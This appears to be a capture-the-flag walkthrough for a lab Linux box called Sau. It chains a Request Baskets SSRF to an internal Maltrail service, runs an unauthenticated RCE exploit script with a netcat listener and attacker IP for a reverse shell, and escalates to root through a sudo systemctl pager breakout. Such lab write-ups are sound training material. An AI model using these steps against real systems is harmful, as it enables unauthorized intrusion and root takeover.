

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">Sau is an Easy Linux box that exploits a Request Baskets SSRF vulnerability to reach an internal Maltrail service. The Maltrail instance is vulnerable to unauthenticated RCE, providing initial access. Privilege escalation involves abusing sudo permissions on systemctl to spawn a root shell via the pager.</span>
</div>

**Key Vulnerabilities:**
- Request Baskets SSRF (CVE-2023-27163)
- Maltrail Unauthenticated RCE
- Sudo privilege on `systemctl status`

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -vv -T5 -p- 10.129.x.x

nmap -vv -T5 -p22,80,8338,55555 -sC -sV 10.129.x.x
```

**Results:**

| Port  | Service         | TCP/UDP |
| ----- | --------------- | ------- |
| 22    | SSH             | TCP     |
| 80    | HTTP (filtered) | TCP     |
| 8338  | HTTP (Maltrail) | TCP     |
| 55555 | HTTP (Baskets)  | TCP     |

**Key findings:**
- Port 55555 running Request Baskets 1.2.1
- Port 8338 (filtered) likely running another service
- Port 80 is closed/filtered externally

---

### Web Enumeration

**Step 1:** Request Baskets (Port 55555)

Visiting `http://10.129.x.x:55555` reveals a **Request Baskets** instance.

<div class="divider divider-info">
    <span class="divider-title">Request Baskets</span>
    <span class="divider-content">A service to collect and inspect HTTP requests. Version 1.2.1 is known to be vulnerable to Server-Side Request Forgery (SSRF) via the "forward_url" parameter, allowing attackers to access internal services.</span>
</div>

**Vulnerability:** CVE-2023-27163 (SSRF)

**Step 2:** Exploiting SSRF to Reach Internal Services

Since port 80 was filtered in the nmap scan, I attempted to access it via the SSRF vulnerability.

1.  Created a new basket.
2.  Configured the "Forward URL" to `http://127.0.0.1:80`.
3.  Enabled "Proxy Response".

**Step 3:** Accessing Maltrail

Accessing the basket URL now proxies the request to the internal port 80.

It reveals a **Maltrail** login page.

<div class="divider divider-warning">
    <span class="divider-title">Maltrail RCE</span>
    <span class="divider-content">Maltrail is a malicious traffic detection system. Older versions (v0.53) contain an unauthenticated Remote Code Execution vulnerability in the login page via the "username" parameter.</span>
</div>

---

## Initial Foothold

### Maltrail RCE Exploitation

**Step 1:** Prepare Exploit

Used a Python exploit for Maltrail RCE.

```bash
# Set up listener
nc -lvnp 4444
```

**Step 2:** Execute Attack

Since the target is behind the Request Baskets proxy, the exploit needs to target the basket URL.

```bash
# Exploit payload
python3 exploit.py http://10.129.x.x:55555/my_basket 10.10.14.5 4444
```

**Step 3:** Shell Access

Received a reverse shell as user `puma`.

```bash
puma@sau:~$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

<div class="divider divider-root">
    <span class="divider-title">Shell Access</span>
    <span class="divider-content">Successfully obtained reverse shell as user puma</span>
</div>

User flag found in `/home/puma/user.txt`.

---

## Privilege Escalation

### Sudo Enumeration

**Step 1:** Check Permissions

```bash
sudo -l
```

Output:
```text
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

**Step 2:** Systemctl Pager Exploit

The user can run `systemctl status trail.service` as root without a password.

<div class="divider divider-info">
    <span class="divider-title">Systemctl Pager Abuse</span>
    <span class="divider-content">When systemctl outputs text that exceeds the screen size, it pipes the output to a pager (usually 'less'). The 'less' pager allows executing shell commands via '!sh'. Since systemctl is running as root, the spawned shell will also be root.</span>
</div>

### Exploitation

1.  Run the allowed command:
    ```bash
    sudo /usr/bin/systemctl status trail.service
    ```
2.  The output opens in `less` (ensure terminal size is small enough to trigger pager if needed).
3.  Type `!sh` and press Enter.

```bash
!sh
# whoami
root
```

<div class="divider divider-root">
    <span class="divider-title">Root Access</span>
    <span class="divider-content">Successfully escalated to root via systemctl pager</span>
</div>

---

## Post-Exploitation

**Flags:**
- User: `/home/puma/user.txt`
- Root: `/root/root.txt`

**Attack Chain Summary:**
1. Request Baskets SSRF (CVE-2023-27163) used to access internal port 80
2. Internal service identified as Maltrail
3. Maltrail Unauthenticated RCE exploited to gain shell as `puma`
4. Sudo privileges found for `systemctl status trail.service`
5. Pager (`less`) breakout used to spawn root shell

**Key Lessons:**
- Services listening on localhost (port 80) can be exposed via SSRF
- Utility tools like Request Baskets can introduce critical vulnerabilities
- `systemctl status` invokes a pager which is a known GTFOBins escalation vector
- Always check `sudo -l` for NOPASSWD commands

---

## References

- [CVE-2023-27163 - Request Baskets SSRF](https://github.com/entr0pie/CVE-2023-27163)
- [Maltrail RCE Exploit](https://github.com/spookyahell/Maltrail-v0.53-Exploit)
- [GTFOBins - Systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

---

## Timeline



---

**Pwned on:** 25/10/2025

**Difficulty Rating:** ⭐ (Standard chain)  
**Fun Factor:** ⭐⭐ (SSRF is always fun)
